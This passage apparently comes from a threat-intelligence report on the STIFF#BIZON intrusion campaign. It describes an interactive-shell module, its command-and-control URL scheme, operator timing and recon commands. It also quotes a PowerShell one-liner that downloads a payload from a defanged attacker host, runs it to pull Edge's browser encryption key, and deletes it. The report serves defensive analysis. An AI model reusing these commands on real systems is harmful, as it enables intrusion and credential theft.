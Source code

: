 Figure 13
The next module, shell.net.exe was leveraged and provided the threat actor an “interactive shell” that would check and run commands from the attacker every 10 seconds. The loaded module can be seen in figures 14-16 below.

Figure 14

Figure 15

Figure 16
The module shell.net.exe provided the following C2 communication command structure:
Receive commands from shell.net.exe assembly module (interactive shell):
/dn.php?name=name=”+[Environment]::MachineName+”&prefix=kk
Transfer tools/TA files to victim host:
/dn.php?name=”+[Environment]::MachineName+”&prefix=mm
Send results of commands execution (.net assembly modules)
/up.php?name    =”+[Environment]::MachineName
STIFF#BIZON: Modus Operandi:

Operator activity often starts at ~ 1:00-7 a.m. UTC time.
Operators transfer tools and other files from an external system into a compromised environment compressed in .cab archives.
Commands executed are shell.net.exe .net assembly module




Initial recon begins:


cmd /c cd /d “C:\Users” && dir /a/o-d/s *.*


cmd /c tasklist


cmd /c systeminfo


cmd /c wmic logicaldisk get caption,description,drivetype,filesystem,freespace,size,volumename
cmd /c query session



 



Dump of browser state key (search for edge AES state key, master key)


powershell -ep bypass -command “$url=’hxxp://547857[.]c1[.]biz/dn.php?name=’+[System.Environment]::MachineName+’
&prefix=mm’;$client=new-object System.Net.WebClient;$rep=$client.DownloadString($url);
$buf=[Convert]::FromBase64String($rep);$fn=[System.Environment]::GetEnvironmentVariable(‘temp’)`
+’\z.exe’;[System.IO.File]::WriteAllBytes($fn, $buf);”


cmd /c cd /d %TEMP% && z.exe “C:\Users\bhenson\AppData\Local\Microsoft\Edge\User Data\Local State”


cmd /c del /f /q “%TEMP%\z.exe”




[1]: APT28: AT THE CENTER OF THE STORM, January, 2017 https://www.mandiant.com/sites/default/files/2021-09/APT28-Center-of-Storm-2017.pdf
[2]: CrowdStrike’s work with the Democratic National Committee: Setting the record straight, June 5, 2020  https://www.crowdstrike.com/blog/bears-midst-intrusion-democratic-national-committee/
[3]: New variant of Konni malware used in campaign targeting Russia, August 23, 2021 https://blog.malwarebytes.com/threat-intelligence/2021/08/new-variant-of-konni-malware-used-in-campaign-targetting-russia/
[4]: Vault 7: CIA Hacking Tools Revealed, March 7, 2017 https://wikileaks.org/ciav7p1/
[5]: PowerShell-Suite/UAC-TokenMagic.ps1, July 15, 2017 https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/UAC-TokenMagic.ps1
[6]: Indicators of Compromise for Malware used by APT28, October 4, 2018 https://www.thecssc.com/wp-content/uploads/2018/10/4OctoberIOC-APT28-malware-advisory.pdf
[7]: A deeper look at hacking groups and malware targeting Ukraine, April 27, 2022 https://therecord.media/a-deeper-look-at-hacking-groups-and-malware-targeting-ukraine/
[13]: North Korea recognizes “DPR” and “LPR”, July 13, 2022 https://ukrainetoday.org/2022/07/13/north-korea-recognizes-dpr/